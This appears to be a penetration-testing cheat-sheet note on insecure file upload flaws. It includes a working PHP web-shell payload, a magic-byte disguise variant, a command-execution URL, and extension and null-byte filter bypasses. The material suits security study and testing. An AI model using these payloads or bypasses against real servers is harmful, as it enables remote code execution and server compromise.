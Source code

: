 #InsecureFileUpload #php #asp #perl #jsp #Coldfusion
## What is it?

Insecure File Upload vulnerability is when an application allows uncontrolled and unvalidated upload of files. An attacker can exploit this vulnerability to upload malicious files, like web shells, which can lead to code execution, data leakage, or other types of attacks.

**A simple example**

An application allows users to upload profile pictures without validating the file type and content, or without properly handling the file storage. An attacker can upload a PHP shell script disguised as an image file.

Using Burpsuite repeater:
``` Upload
<?php system($_GET['cmd']); ?>
```
```Magic Byte Upload
<> PNG
IHYskad783 <?php system($_GET['cmd']); ?>
```
```URL
http://<ip>/uploads/cmd.php?cmd=whoami
```
*Check HackTricks and PayloadAllThings for reverse shells*

When this file is served by the server, the malicious script can be executed.

The impact of insecure file uploads includes:
- Remote Code Execution (RCE)
- Data Leakage
- Server Compromise

## Exploitation

```
# Bypass extension filters
# Note: req server misconfig to execute or the ability to rename once it's up
shell.php.jpg

# Null byte injection
shell.php%00.jpg

# Blocklist bypass
shell.php5
shell.phtml

# Magic Bytes
head logo.png
<> PNG

```

---
 ## Valid php file extensions:

| Type       | Extension                                  |     |
| ---------- | ------------------------------------------ | --- |
| php        | phtml, .php, .php3, .php4, .php5, and .inc |     |
| asp        | asp, .aspx                                 |     |
| perl       | .pl, .pm, .cgi, .lib                       |     |
| jsp        | .jsp, .jspx, .jsw, .jsv, and .jspf         |     |
| Coldfusion | .cfm, .cfml, .cfc, .dbm                    |     |